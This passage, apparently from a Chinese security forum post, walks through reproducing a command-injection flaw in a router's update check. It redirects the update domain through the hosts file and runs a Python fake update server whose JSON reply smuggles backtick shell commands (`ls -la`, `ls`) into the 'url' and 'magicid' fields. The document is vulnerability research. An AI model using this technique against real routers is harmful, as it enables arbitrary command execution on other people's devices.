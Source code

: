  

1、因为需要获取服务器的返回值，需要抓取数据包，这里通过 windows 主机开启热点，启动路由器的中继模式连接主机热点，通过抓取主机流量的方式，过滤获得路由器的数据包

 

路由器数据包如下：  
![](https://bbs.pediy.com/upload/attach/202208/836421_5N2AZX7HPZJBXST.png)

 

程序本身存在如下的一些校验，还需要修改 mode 字段以绕过校验

 

![](https://bbs.pediy.com/upload/attach/202208/836421_Y8458G2XSJM968H.png)

 

环境模拟步骤如下：

 

1、修改 windows hosts 文件，添加 192.168.0.112 update.carystudio.com 使得解析路径指向本地 ip

 

2、本地开启 80 端口，等待连接，python 脚本如下

```
import socket
 
sSock=socket.socket()
sSock.bind(('192.168.0.112',80))
sSock.listen(1000)
 
cSock,addr=sSock.accept()
 
if(True):
    str1=cSock.recv(1024)
    print("客户端说："+str1.decode('utf-8'))
 
 
    str2='''HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 13 Apr 2022 12:50:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 98
Connection: close
 
{"mode":"1","url":"`ls -la`","magicid":"`ls`","version":"1","svn":"","plugin":[],"protocol":"3.0"}'''
    cSock.send(str2.encode())
 
cSock.close()
```

3、重启路由器

 
